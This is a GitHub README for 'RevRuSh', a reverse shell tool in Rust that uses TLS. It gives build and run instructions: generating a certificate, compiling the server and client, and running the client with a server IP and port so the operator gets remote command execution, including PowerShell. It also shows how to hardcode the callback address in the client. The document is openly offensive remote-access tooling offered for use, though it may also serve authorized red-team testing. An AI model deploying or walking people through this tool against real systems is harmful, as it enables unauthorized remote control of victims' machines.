

# RevRuSh - A sample reverse shell in Rust
Based on https://github.com/trickster0/RedLizard



### Note
Based on [RedLizard](https://github.com/trickster0/RedLizard), since the author does not mantained it anymore, I decided to create a new indipendent repository.

### Changes from the original project:
- Use native_tls instead of openssl, since openssl on windows it's a pain
- Client run both on windows and linux
- Client on linux execute command through bash
- The certificate (and the private key) is now embedded into the server as PFX file
- The client accept the server IP and port as parameter
- Adjusted the code to suppress warning
- Optimized command management: now you can pass parameter, e.g. ip a, ipconfig /all


### Requirements:
- rustc & cargo >= 1.73.0
- on linux: OpenSSL 3.0.11 with libssl-dev installed
- pfx file must reside on src folder of the server
### Advises
- better run server on linux

### Prepare the server
    cd RevRuSh/server
    openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout my.key -out my.crt && \
    openssl pkcs12 -export -out revrush.pfx -inkey my.key -in my.crt && \
    mv revrush.pfx src

    cargo b --release
    
### Run the server
Pass the certificate password and the port. The server will listen to all the available IP4 interfaces:
```
target/release/revrush_server Zinz01 8443
```

### Prepare the client
    cd RevRuSh-main\client>
    cargo b --release
    
### Run the client
Pass the server:port as argument.
```
target\release\revrush_client.exe <server IP>:8443
```
If you want to run powershell command you can execute:
         
    ~$: powershell -c get-help

#### Hardcoded configuration on the client
If you cannot pass the server:port parameter to the client consider to change the following in client main file (around line 23):
```rust
 "127.0.0.1:4443".to_owned()
```
#### Known issues
~~Don't send empty command to the client, just hitting carriage return, since the server will loose the shell, not the connection. The reuslt will be a hanging session~~

